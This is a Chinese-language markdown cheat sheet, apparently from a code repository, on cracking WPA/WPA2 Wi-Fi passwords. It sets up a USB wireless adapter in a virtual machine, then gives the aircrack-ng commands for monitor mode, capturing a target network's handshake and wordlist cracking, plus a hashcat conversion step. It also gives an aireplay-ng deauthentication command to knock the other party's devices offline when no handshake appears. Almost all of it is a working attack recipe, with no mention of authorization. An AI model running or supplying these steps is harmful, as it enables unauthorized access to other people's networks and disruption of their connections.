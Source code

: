# 配置网卡

- WM Ware(开机后)

    虚拟机->可移动设备->Ralink 802.11 n Wlan(显卡型号)->连接(断开与主机的连接)

- VBox

    虚拟机关机状态下->将设备插入主机->设置->USB设备->添加->删除除了供应商标识(VendorID)和产品标识(ProductID)之外的参数->开机->插入设备

- 验证是否连接成功

    ```bash
    lsusb
    airmon-ng
    ifconfig
    iwconfig
    ```
    出现无线网卡型号即为成功



# 基础命令












# 简单示例

- 以无线网卡名为wlan0举例

    - `启动网卡`

        airmon-ng start wlan0

    - `关闭干扰程序`

        airmon-ng check kill

    - `开启抓包`

        airodump-ng wlan0mon

    - `指定特定的wifi抓握手包`

        airodump-ng -c 6 --bssid E0:24:81:AF:F3:A8 -w wireless wlan0mon

            -c 指定信道,上面已经标记目标热点的信道(CH)
            -bssid 指定目标路由器的BSSID,就是上面标记的BSSID
            -w 指定抓取的数据包保存的目录

            出现handshake则抓包成功

    - `跑包`

        aircrack-ng -a2 -b 62:C2:95:16:89:B5  -w pass.txt wireless-01.cap

- 使用hashcat爆破(只能跑WPA/WPA2/PSK加密的)

    - `用aircrack-ng把cap转换成hccap类型数据包(会自动添加后缀名.hccap)`

        aircrack-ng wireless-01.cap -J wireless

    - `用hashcat破解WPA/PSK密码`

        hashcat -m 2500 wireless.hccap pass.txt --force

    - `若是提示"Old hccap format detected! You need to update"可以将第一步的命令改为`

        aircrack-ng wireless-01.cap -j wireless

- 注意如果抓不到握手包把对方踢下线,这样就会抓包成功

    aireplay-ng -0 10 -a <无线路由器的MAC地址> -c <连接上的设备MAC地址> wlan0mon

        -0 冲突攻击模式,后面跟发送次数,一般使用这个模式即可
















































































